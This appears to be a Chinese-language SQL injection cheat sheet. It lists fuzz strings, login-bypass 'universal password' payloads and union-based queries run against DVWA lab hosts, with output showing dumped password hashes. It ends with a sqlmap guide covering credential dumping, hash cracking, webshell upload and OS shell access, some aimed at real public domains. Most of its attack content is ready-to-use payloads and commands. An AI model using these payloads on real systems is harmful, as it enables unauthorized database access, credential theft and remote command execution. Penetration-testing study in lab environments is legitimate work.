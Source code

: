 注入方法
=====================================

常见的注入点
--------------------------------------
- GET/POST/PUT/DELETE参数(查询字符串，表单)
- X-Forwarded-For
- 文件名
- cookier

Fuzz注入点
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

- asp aspx万能密码

	``" or "a"="a``
	``') or ('a'='a``
	``or 1=1--``
	``' or 1=1--``
	``a' or '1=1--``
	``" or 1=1--``
	``' or 'a'='a``
	``" or "="a'='a``
	``' or ''='``
	``' or '='or'``
	``1 or '1'='1'=1``
	``1 or '1'='1' or 1=1``
	``' OR 1=1%00``
	``" or 1=1%00``
	``' xor``
	``用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）``
	``密码 1``
	``admin' or 'a'='a 密码随便``

- PHP万能密码

	``'or 1=1/*``
	``User: something``
	``Pass: ' or '1'='1``

- jsp 万能密码

	``1' or '1'='1``
	``admin' or 1=1/*``

测试列数
--------------------------------------
``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回

堆叠注入
--------------------------------------
堆叠注入与受限于select语句的联合查询法相反，堆叠注入可用于执行任意SQL语句。
堆叠注入的局限性：堆叠注入并不是任何换环境下都可以执行的，可能受到API或者数据库引擎不支持的限制（如Oracle数据库），也有可能权限不足。web系统中，因为代码通常只返回一个查询结果，因此堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，一般建议使用union注入.同时在使用堆叠注入之前，需要知道数据库的一些相关信息，比如：表名，列名等信息。

``http://192.168.1.100/sqllabs/Less-38/?id=1';create database aaron --+``

注释符
--------------------------------------
- MYSQL：``#(单行注释)`` , ``--+(单行注释)`` , ``/*...*/(多行注释)``
- ORACLE: ``--(单行注释)`` , ``/*...*/(多行注释)``

判断过滤规则
--------------------------------------
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

获取信息
--------------------------------------
	
- 判断数据库表是否存在
	| ``and exsits (select * from admin)`` MySQL
	| 如：``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' and exists+(select * from guestbook)--+&Submit=Submit#``
- 确定字段数
    order by(MySQL)
	例如 ``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' order by 6--+&Submit=Submit#`` ，不断增加数字，直到返回错误
    select into(MySQL)
	例如 ``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回
- 匹配数据类型
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select 'TEST',null--+&Submit=Submit#``
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select null,'TEST'--+&Submit=Submit#``
	注：只要程序不出现错误，就知道存储TEST值的列可以保存一个字符串。
	
测试权限
--------------------------------------
- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求
	
MYSQL实战
--------------------------------------
- 查询数据库
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select null,schema_name from information_schema.schemata--+&Submit=Submit#``
	::
	
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: admin
		Surname: admin
		
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: 
		Surname: information_schema
		
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: 
		Surname: dvwa``
		
- 查询表名
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'--+&Submit=Submit#``
	::
	
		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: admin
		Surname: admin

		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: dvwa
		Surname: guestbook

		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: dvwa
		Surname: users
		
- 查询列名
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select table_name,column_name from information_schema.columns where table_name='users'--+&Submit=Submit#``
	::
	
		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: admin
		Surname: admin

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: user_id

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: first_name

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: last_name

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: user

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: password

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: avatar
		
- 查询数据
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select user_id,password from users--+&Submit=Submit#``
	::
	
		ID: 1' union select user_id,password from users-- 
		First name: admin
		Surname: admin

		ID: 1' union select user_id,password from users-- 
		First name: 1
		Surname: 21232f297a57a5a743894a0e4a801fc3

		ID: 1' union select user_id,password from users-- 
		First name: 2
		Surname: e99a18c428cb38d5f260853678922e03

		ID: 1' union select user_id,password from users-- 
		First name: 3
		Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

		ID: 1' union select user_id,password from users-- 
		First name: 4
		Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

		ID: 1' union select user_id,password from users-- 
		First name: 5
		Surname: 5f4dcc3b5aa765d61d8327deb882cf99

		ID: 1' union select user_id,password from users-- 
		First name: 6
		Surname: ee11cbb19052e40b07aac0ca060c23ee

sqlmap教程
--------------------------------------
- 默认使用level1检测全部数据库类型
	``sqlmap -u http://www.vuln.cn/post.php?id=1`` 
- 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
	``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
- cookie注入
	``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
- 从POST数据包注入
	``sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql`` 
- 列举数据库管理系统中的用户
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –users`` 
- 列举并破解数据库管理系统用户密码Hash值
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql --passwords -v 1`` 
- 列举数据库管理系统的用户权限
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –privileges`` 
- 获取数据库基本信息
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs``
- 查询test数据库中有哪些表
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables``
- 查询test数据库中admin表有哪些字段
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns``
- dump出admin表中用户名和密码的数据
	``sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin -C “username,password” –dump``
- 在dedecms数据库中搜索字段admin或者password
	``sqlmap -r “c:\tools\request.txt” –dbms mysql -D dedecms –search -C admin,password``
- 读取与写入文件
	| 首先找需要网站的物理路径，其次需要有可写或可读权限.
	| –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
	| –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
	| –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
	| ``sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”``
- 执行命令
	``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
- 使用shell命令
	``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``